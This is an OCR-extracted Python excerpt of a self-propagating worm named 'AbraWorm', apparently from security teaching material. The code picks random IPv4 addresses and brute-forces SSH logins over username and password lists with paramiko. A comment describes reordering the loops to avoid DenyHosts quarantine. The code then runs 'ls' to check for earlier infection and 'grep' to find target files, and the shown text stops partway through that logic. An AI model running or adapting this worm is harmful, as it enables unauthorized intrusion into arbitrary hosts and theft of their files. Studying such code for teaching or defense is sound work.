 ```python
def get_fresh_ipaddresses(how_many):
	'''
	Provide one or more IP address that you
	want 'attacked' for debugging purposes.
	The username and password you provided
	in the previous two functions must
	work on these hosts.
	'''
	if debug: return ['128.46.144.123']
	if how_many == 0: return 0
	ipaddresses = []
	for i in range(how_many):
		first, second, third, fourth = map(lambda x: str(1 + random.randint(0, x)), [223, 223, 223, 223])
		ipaddresses.append(first + '.' + second + '.' + third + '.' + fourth)
	return ipaddresses

'''
For the same IP address, we do not want to loop through multiple user
names and passwords consecutively since we do not want to be quarantined
by a tool like DenyHosts at the other end. So let's reverse the order
of looping.
'''

while True:
	usernames = get_new_usernames(NUSERNAMES)
	passwds = get_new_passwds(NPASSWDS)
	# print("usernames: %s" % str(usernames))
	# print("passwords: %s" % str(passwds))
	# First loop over passwords
	for passwd in passwds:
		# Then loop over user names
		for user in usernames:
			# And, finally, loop over randomly chosen IP addresses
			for ip_address in get_fresh_ipaddresses(NHOSTS):
				print("\nTrying password %s for user %s at IP address: %s" % (passwd,user,ip_address))
				files_of_interest_at_target = []
				try:
					ssh = paramiko.SSHClient()
					ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
					ssh.connect(ip_address, port=22, username=user, password=passwd, timeout=5)
					print("\n\nconnected\n")
					# Let’s make sure that the target host was not previously
					# infected:
					received_list = error = None
					stdin, stdout, stderr = ssh.exec_command('ls')
					error = stderr.readlines()
					if error is not None:
						print(error)
					received_list = list(map(lambda x: x.encode('utf-8'), stdout.readlines()))
					print("\n\noutput of ’ls’ command: %s" % str(received_list))
					if ''.join(received_list).find('AbraWorm') >= 0:
						print("\nThe target machine is already infected\n")
						continue

					# Now let's look for files that contain the string 'abracadabra'
					cmd = 'grep -ls abracadabra *'
					stdin, stdout, stderr = ssh.exec_command(cmd)
					error = stderr.readlines()
					if error is not None:
						print(error)
					received_list = list(map(lambda x: x.encode(’utf-8’), stdout.readlines()))
```